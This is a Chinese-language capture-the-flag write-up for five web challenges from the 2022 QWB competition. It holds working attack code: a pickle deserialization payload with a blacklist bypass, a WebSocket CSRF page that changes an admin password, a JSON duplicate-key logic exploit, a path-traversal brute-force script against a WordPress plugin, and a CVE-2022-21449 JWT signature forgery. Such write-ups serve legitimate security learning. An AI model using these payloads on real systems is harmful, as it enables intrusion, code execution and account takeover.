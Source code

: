 # 2022-qwb

## rcefile

www.zip泄漏得到源码，可以上传文件但是后缀有限制，因为用了`spl_autoload_register();`，传一个后缀为.inc的马然后自动加载即可：

```
userfile=O:32:"363f4230e9f9e0dda5ddb25ffd8c50b7":0:{}
```

![image-20220730152423301](2022-qwb.assets/image-20220730152423301.png)

## babyweb

查一下，根据f12可以知道用的websocket和bot通信的，根据题目表述拿ws打一下8888端口：

```html

<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>后台管理系统</title>
    <!--自定义函数-->
    <script>
    function sendtobot() {
        var ws = null;
        var url = "ws://127.0.0.1:8888/bot";
        ws = new WebSocket(url);
        ws.onopen = function (event) {
            ws.send("changepw admin")
        }
        ws.onmessage = function (ev) {
                    botsay(ev.data);
                };
    }
        function botsay(content) {
            document.getElementById("chatbox").append("bot: " + content + "\r\n");
        }
    
    </script>
    <script>sendtobot();</script>

    <!-- Bootstrap -->
    <link href="http://59.110.212.61:41478/static/bootstrap.css" rel="stylesheet">

    <!-- HTML5 shim 和 Respond.js 是为了让 IE8 支持 HTML5 元素和媒体查询（media queries）功能 -->
    <!-- 警告：通过 file:// 协议（就是直接将 html 页面拖拽到浏览器中）访问页面时 Respond.js 不起作用 -->
    <!--[if lt IE 9]>
    <script src="https://cdn.jsdelivr.net/npm/html5shiv@3.7.3/dist/html5shiv.js"></script>
    <script src="https://cdn.jsdelivr.net/npm/respond.js@1.4.2/dest/respond.js"></script>
    <script type="text/javascript" src="jquery-1.7.2.js"></script>
    <![endif]-->
</head>
<body>
<nav class="navbar navbar-default" role="navigation">
    <!-- Brand and toggle get grouped for better mobile display -->
    <div class="navbar-header">
        <button type="button" class="navbar-toggle" data-toggle="collapse" data-target=".navbar-ex1-collapse">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
        </button>
        <a class="navbar-brand" href=".">主页</a>
    </div>
    <!-- Collect the nav links, forms, and other content for toggling -->
    
    <div class="collapse navbar-collapse navbar-ex1-collapse">
        <ul class="nav navbar-nav navbar-right">
            <li><a href="/logout">登出</a></li>
        </ul>
    </div><!-- /.navbar-collapse -->
</nav>
<div style="padding: 100px 100px 10px;">
    <div class="form-group">
        <label for="name">一个好用简约的bot</label>
        <textarea class="form-control" rows="15" id="chatbox"></textarea>
    </div>
    <div class="form-group">
        <label for="name">输入框</label>
        <input type="text" class="form-control" placeholder="输入 help 查看bot使用方法" id="sendbox">
    </div>
    <div class="form-group" style="display: flex;flex-direction: column;align-items: flex-end;">
        <button type="button" class="btn btn-info" style="width: 20%;" onclick="sendtobot()">发送</button>
    </div>
</div>
<!-- jQuery (Bootstrap 的所有 JavaScript 插件都依赖 jQuery，所以必须放在前边) -->
<script src="http://59.110.212.61:41478/static/jquery.js"></script>
<!-- 加载 Bootstrap 的所有 JavaScript 插件。你也可以根据需要只加载单个插件。 -->
<script src="http://59.110.212.61:41478/static/bootstrap.js"></script>
</body>
</html>

```

改admin密码之后登进入买hint后代码审计，发现python处`data = request.get_json()`取的product应该是偏后的，Go中`jsonparser`

取的是偏前的，所以因为解析的问题拿逻辑漏洞的方式打就行：

```json
{"product":[{"id":1,"num":0},{"id":2,"num":-1}],
"product":[{"id":1,"num":0},{"id":2,"num":0}]}
```

实际上如果二者解析的都是偏后的，可以直接写money来覆盖掉前面的money，同样可以打通。



## crash

首页有源码，审计一下有pickle的反序列化：

```python
@app.route('/balancer', methods=['GET', 'POST'])
def flag():
    pickle_data=base64.b64decode(request.cookies.get("userdata"))
    if b'R' in pickle_data or b"secret" in pickle_data:
        return "You damm hacker!"
    os.system("rm -rf *py*")
    userdata=pickle.loads(pickle_data)
    if userdata.token!=hash(get_password(userdata.username)):
        return "Login First"
    if userdata.username=='admin':
        return "Welcome admin, here is your next challenge!"
    return "You're not admin!"
```

需要username为admin但是secret又不知道，所以需要反序列化来设置，ban了R和secret，利用字符串拼接即可绕过：

```python
import base64

data=b'''(cbuiltins
exec
S's="import admin;admin.secr"+"et='feng'";exec(s)'
o.'''
print(base64.b64encode(data))
```

然后先反序列化一次修改secret，再`/login?username=admin&password=feng`即可进入服务器负载均衡设置页面，f12看到flag在504页面和一个nginx的配置文件，对应了负载均衡的功能：

```conf
    location /gettestresult {
            default_type text/html;
            content_by_lua '
                local resty_roundrobin = require "resty.roundrobin"
                local server_list = {
                    [ngx.var.arg_server1] = ngx.var.arg_weight1,
                    [ngx.var.arg_server2] = ngx.var.arg_weight2,
                    [ngx.var.arg_server3] = ngx.var.arg_weight3,
                }
                local rr_up = resty_roundrobin:new(server_list)
                for i = 0,9 do
                    ngx.say("Server seleted for request ",i,": &nbsp;&nbsp;&nbsp;&nbsp;" ,rr_up:find(),"<br>")
                end
            ';
    }
```

查一下https://blog.csdn.net/weixin_43931625/article/details/125929924，猜测如果给的server是找不到的，权重也都为0的话，代理就无法得到响应，或许会504：

```
gettestresult?server1=1&weight1=0&server2=1&weight2=0&server3=1&weight3=0
```

等了很久确实出了flag

![image-20220731142835707](2022-qwb.assets/image-20220731142835707.png)

## WP-UM

user-meta有个Path遍历的洞，利用这个爆一下用户名和密码：

```python
import requests
url="http://eci-2ze8d2tyn8usptnvyg2q.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php"
result = ""
for i in range(1,11):
    for j in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
        payload = str(i)+j
        print(payload)
        data={
            "field_name":"test",
             "filepath":"/../../../../../../../../username/"+payload,
            "field_id":"um_field_4",
            "form_key":"Upload",
            "action":"um_show_uploaded_file",
            "pf_nonce":"b2841903d1",
            "is_ajax":"true"
        }
        r=requests.post(url=url,data=data)
        if "Remove" in r.text:
            result+=j
            print("result:"+result)
            break


```

登陆wp后台后改404页面getshell，然后grep搜出来flag在`/usr/local/This_1s_secert`



## myJWT

CVE-2022-21449，参考：https://zhuanlan.zhihu.com/p/502308021，Java漏洞，当进行ECDSA认证时存在要求r和s都大于等于1，但存在此漏洞的java环境没有对此进行检查，且由于ECDSA对签名的认值机制当r和s都等于0时可以正常通过认证，此时只需要将jwt中的签名部分替换为base64编码的0即可：

```python
import base64


# s1 = b'eyJ0eXAiOiJKV1QiLCJhbGciOiJteUVTIn0=.eyJpc3MiOiJxd2IiLCJuYW1lIjoiankiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTY1OTI1MjcxNjM4NX0=.KI715AzGyoLE46mxhxrippE-4UiPcAP0aUGsqONvFvcreF658oz0E1l-cFz3PUmp0zIrzngbb-AZR8g-CpxHuqnBpTC-c3YlgTgXF4fFYKC3Mg0UKHGBa8h5qflrj-hC'.split(b'.')
s1 = input()
for i in range(len(s1)-1):
    print(base64.b64decode(s1[i]))

payload = base64.b64decode(s1[1]).replace(b'false', b'true')

exp = s1[0] + b'.' + base64.b64encode(payload) + b'.' + base64.b64encode(bytes(int(128/4*3)))
print(exp)
```


